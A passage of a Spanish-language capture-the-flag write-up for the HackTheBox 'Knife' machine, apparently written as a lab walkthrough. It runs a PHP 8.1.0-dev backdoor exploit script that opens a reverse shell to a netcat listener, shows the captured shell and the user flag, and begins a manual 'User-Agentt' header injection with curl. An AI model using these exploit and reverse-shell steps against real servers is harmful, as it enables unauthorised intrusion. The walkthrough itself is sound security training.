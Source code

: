 Ahora, usa el Exploit:
```bash
python3 revshell_php_8.1.0-dev.py http://10.10.10.242 Tu_IP 443
```

Y ve la **netcat**:
```bash
nc -nvlp 443                   
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.242] 42246
bash: cannot set terminal process group (899): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
```

Te recomiendo sacar una **shell interactiva** y después de que lo hagas busca la flag:
```bash
james@knife:~$ cd /home
james@knife:/home$ ls
james
james@knife:/home$ cd james
james@knife:~$ ls
user.txt
james@knife:~$ cat user.txt
...
```

<br>

<h3 id="Exploit3">Inyectando Comandos con Cabecera 'User-Agentt' y curl</h3>

Como ya vimos que se esta ocupado la cabecera de **User-Agentt** para inyectar una **Reverse Shell**, también podemos hacerlo nosotros sin necesidad del Exploit. Esto es similar a hacer una prueba en la cabecera **User-Agent** con tal de ver si no es vulnerable al **ataque Shellshock**.

Vamos a probar por pasos:

* Ocupa el siguiente comando de **curl**, vamos a agregarle el comando **html2text** para ver como se representa el código fuente en texto en lugar de mostrar todo el código:

```bash
curl -s -X GET http://10.10.10.242 | html2text
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO
*
***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```
El parámetro **-s** es para que la petición sea silenciosa y el parámetro **-X** es para introducir el metodo de la petición, que en este caso sería una petición **GET**.
